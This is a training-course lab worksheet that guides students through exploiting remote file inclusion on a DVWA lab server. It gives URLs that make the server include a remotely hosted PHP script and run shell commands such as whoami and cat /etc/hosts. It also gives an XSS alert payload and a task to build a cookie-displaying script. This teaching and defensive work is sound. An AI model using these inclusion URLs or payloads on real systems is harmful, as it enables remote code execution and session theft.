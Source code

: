## Activity File: Remote File Inclusion 

- In this activity, you will continue your role as an application security engineer with Replicants.

- You've just tested the company's main production website and confirmed there is another back-end component vulnerability, **local file inclusion**.

- Your manager is now concerned that the website is also vulnerable to **remote file inclusion** and would like you to now test for this vulnerability.

- Your manager has asked you to propose a mitigation strategy based on your findings.

## Setup 

- Access your web lab and open a browser.

- Return to the same webpage from the previous activity: <http://192.168.13.25>.

  - Select the **File Inclusion** option from the menu on the left side of the page.

    - Note that this is the same page where the directory traversal activity was done.

  - Alternatively, you can access the webpage directly by using this link: <http://192.168.13.25/vulnerabilities/fi/>.
  
-  The page should look like the following image:

    ![On DVWA, a red arrow points to File Inclusion on the left-side menu.](directory_traversal.png)

- **Note:** If you have any issues accessing this webpage, you might need to repeat the activity setup steps from the SQL Injection Activity in 15.1.


## Instructions

The webpage you have revisited represents a page within Replicants website designed to display files within Replicants web server. You previously determined this page has a directory traversal vulnerability. Complete the following steps to determine if this same webpage is also vulnerable to a **Remote File Inclusion** vulnerability:

1. Test the intended use of the web application.

    - Select `File1.php`, and note the following:

      - The URL changes to the following: <http://192.168.13.25/vulnerabilities/fi/?page=file1.php>.

      - The content on the webpage is displayed as follows:
      
              Hello admin
              Your IP address is: 192.168.13.1
          
    - Select the other links (`File2.php` and `File3.php`) and note their URL and webpage changes.

2. Test an unintended function of the application by referencing a remote webpage.

    - Note that you just tested how the application is designed to access a file on the Replicants web server.

    - Let's test what will happen if the URL is modified to reference an external or remote webpage.
    
    - Change the parameter of the URL to reference an external URL (<http://www.example.com>) instead of one of the files (`File1.php`). For example:
    
      - <http://192.168.13.25/vulnerabilities/fi/?page=http://www.example.com>
      
    - Note how the example.com webpage has been added to the top of the Replicants website.

      - Test other webpages by replacing example.com with other URLs.
        
    - Note that this illustrates that the webpage is designed to allow external references.

    - Let's try something a little more malicious by referencing a remote script instead of a webpage!
    
3. Test remote file inclusion.

    - We just saw how this webpage allows referencing external sources such as webpages. 

      - Let's see what will happen if we reference a malicious external script instead of a webpage.
      
    - Using your browser in your web lab, view the following webpage:

      - <https://tinyurl.com/y498epmz>
      
    - Note how this looks exactly like the script that was used in the local file inclusion activity.

      - But this script is hosted remotely!
      
    - Change the URL to reference this webpage, instead of example.com: <http://192.168.13.25/vulnerabilities/fi/?page=https://tinyurl.com/y498epmz>.

    - Note that this will not do anything; similar to the remote inclusion activity, we have to provide the script with a command-line command!

    - Let's start with the `whoami` command.

      - To add this command into the URL, add `cmd=whoami&` between `?` and `page`, as follows:
      
        - `http://192.168.13.25/vulnerabilities/fi/?cmd=whoami&page=https://tinyurl.com/y498epmz`
      
    - Run the command and note the results on the top left of the page.

    - Now see if you can modify the command to run the following:

      - `ls`
    
      - `ps`
    
      - cat the `/etc/hosts` file
    
4. **Bonus:** Combine remote file inclusion and cross-site scripting.

    - So far you have been able to run **remote file inclusion** by running remote scripts against a vulnerable web server.

    - These scripts have referenced an external webpage that contained a malicious script.

    - Let's see what would happen if you referenced a script that contained a **cross-site scripting** payload.

    - Using your browser again, look at the following webpage: 

      - <https://tinyurl.com/yxk853vy>

      - Note how this page contains a script that includes XSS payloads we developed previously.

        - `<script>alert("Hey you have been hacked")</script>`

    - Note that the exception is that the XSS payload is embedded within a PHP script.

    - Change the URL to reference this webpage, to see if you can get the XSS payload to execute the pop-up!

5. **Super Bonus:** Develop your own malicious script to capture cookies with a remote file inclusion exploit.

    - So far you have referenced pre-built webpages that contained malicious PHP script.

    - Let's see if you can write your own malicious PHP script webpage.

      - When your webpage is referenced, a script should run and pop up with the user's session cookies.

    - **Hint:** Look at the format of the script from Step 4, and modify this script to pop up with the session cookies: 

        `<script>alert("Hey you have been hacked")</script>`

    - **Hint:** To build a webpage with the script, do the following:

        - Add your script on the following webpage: <http://pastie.org/>.
      
        - Select Save Paste and then Raw on the top right to display the raw code.
      
        - This will create a unique URL with your code.
          
   - Reference the URL of this raw code from the same vulnerable webpage.

      - Run your URL and see if you can successfully get the session cookies to appear on a pop-up!

6. Answer the following mitigation strategy questions:

    - Describe to your management how a malicious user might take advantage of the vulnerabilities that you just exploited. Be sure to include the potential impact.

    - Describe in plain language to your manager how you can mitigate the vulnerabilities you just exploited.

---

© 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved. 
